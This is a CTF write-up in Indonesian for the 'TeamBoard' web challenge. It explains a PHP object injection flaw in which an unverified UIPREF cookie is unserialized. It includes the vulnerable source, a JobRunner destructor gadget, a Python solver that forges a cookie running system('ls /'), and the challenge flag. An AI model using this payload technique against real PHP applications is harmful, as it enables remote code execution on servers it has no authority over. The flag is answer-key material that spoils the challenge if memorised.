

## TeamBoard
**Difficulty:** Medium
**Author:** moonetics
**URL:** [http://ctf.noctralupra.space:10311](http://ctf.noctralupra.space:10311) 

### Description
Tim IT kami baru saja merilis Teamboard, aplikasi internal untuk kolaborasi proyek dan sprint (login, dashboard, pengaturan preferensi, serta fitur admin sederhana seperti ekspor/impor). Versi ini masih tahap staging dan kami butuh bantuanmu untuk melakukan security review dan menemukan potensi bug/kerentanan web.

### Solution
Struktur web terdiri dari :
- `index.php` yang memuat `bootstrap.php` terlebih dahulu, kemudian routing berdasarkan method dan path
- Terdapat beberapa routes yang menarik: `/dashboard`, `/settings`, `/admin/export`, `/admin/import`

```php
<?php
spl_autoload_register(function($class){
  $prefix = 'App\\';
  $base = __DIR__ . '/';
  if (strncmp($prefix, $class, strlen($prefix)) !== 0) return;
  $rel = substr($class, strlen($prefix));
  $file = $base . str_replace('\\','/',$rel) . '.php';
  if (file_exists($file)) require $file;
});

ini_set('display_errors', 1);
error_reporting(E_ALL);

require __DIR__ . '/Core/helpers.php';
require __DIR__ . '/Core/Security.php';

App\Core\Middleware\UiPrefs::bootstrap();

session_start();
```

Pada `bootstrap.php`:
1. Autoloader diinisiasi
2. `helpers.php` dan `security.php` dimuat
3. `App\Core\Middleware\UiPrefs::bootstrap()` dipanggil sebelum `session_start()` dan eksekusi controller/route

```php
class Serializer {
  public static function pack($obj) { return base64_encode(gzdeflate(serialize($obj))); }
  public static function unpack($str) {
    if (!$str) return null;
    $raw = base64_decode($str, true);
    if ($raw === false) return null;
    $inflated = @gzinflate($raw);
    if ($inflated === false) return null;
    return @unserialize($inflated);
  }
}
```

Di helpers.php terdapat **App\Core\Serializer::unpack()**, yang melakukan operasi base64 decode lalu di-gzinflate kemudian di-unserialize:

```php
namespace App\Core\Middleware;
use App\Core\Serializer;
use App\Models\UiPreferences;

class UiPrefs {
  public static $prefs;
  public static function bootstrap() {
    if (isset($_COOKIE['UIPREF'])) {
      $obj = Serializer::unpack($_COOKIE['UIPREF']);
      if ($obj instanceof UiPreferences) {
        self::$prefs = $obj;
      } else {
        self::$prefs = new UiPreferences();
      }
    } else {
      self::$prefs = new UiPreferences();
    }
  }
}
```

**App\Core\Middleware\UiPrefs::bootstrap()** membaca `UIPREF` cookie dan secara langsung memanggil `Serializer::unpack($_COOKIE['UIPREF'])` tanpa validasi dan verifikasi yang aman. Dengan begitu, penggunaan `unserialize()` pada data UIPREF cookie yang hanya diproses melalui `base64_decode` dan `gzinflate` menjadi vuln yang ditargetkan.

```php
<?php
namespace App\Jobs;
class JobRunner {
  public $handler; public $payload; public $autoRun = true;
  public function __construct($handler = null, $payload = null){ $this->handler=$handler; $this->payload=$payload; }
  public function __destruct(){
    if ($this->autoRun && is_callable($this->handler)) { @call_user_func($this->handler, $this->payload); }
  }
}
```

**App\Jobs\JobRunner** (JobRunner.php):
- Mengandung `__destruct()` method yang mengeksekusi `@call_user_func($this->handler, $this->payload)` ketika `$autoRun === true`
- Perfect gadget for PHP Object Injection: Dengan membuat serialized JobRunner object yang mengandung `handler` dan `payload` properties, arbitrary functions tereksekusi ketika request berakhir (destructor dipanggil). Dengan `JobRunner::__destruct()` kemudian `call_user_func`, menggunakan handlers seperti `readfile`, `printf`, `system`, dapat dilakukan RCE.

Untuk alur exploitnya adalah seperti berikut:
1. **Build serialized PHP string:** `O:18:"App\Jobs\JobRunner":3:{s:7:"handler";s:N:"<callable>";s:7:"payload";s:M:"<arg>";s:7:"autoRun";b:1;}`
2. **Pack like server:**
   - Raw DEFLATE
   - Base64-encode the deflate result
3. **Set as UIPREF cookie**
4. **Access any endpoint** and read output at beginning of response

Dengan begitu, saya bisa membuat token UIPREF dengan solver berikut ini:

```python
import base64, zlib

HANDLER = "system"
PAYLOAD = "ls /"

def pack(s: str) -> str:
    co = zlib.compressobj(level=9, wbits=-15)
    comp = co.compress(s.encode("utf-8")) + co.flush()
    return base64.b64encode(comp).decode("ascii")

ser = (f'O:18:"App\Jobs\JobRunner":3:'
       f'{{s:7:"handler";s:{len(HANDLER)}:"{HANDLER}";'
       f's:7:"payload";s:{len(PAYLOAD)}:"{PAYLOAD}";'
       f's:7:"autoRun";b:1;}}')
uipref = pack(ser)
print(uipref)
```



Setelah nilai UIPREF diganti dengan hasil generate solver maka web akan meresponse dengan output dari payload RCE yang dimasukkan.

### Flag
NCLPS1{t3amb04rD_u1pr3f_oBj3ct_inj3ct1on_s3r1AlizE_dEFlat3_b4se64_7516d8bc52}
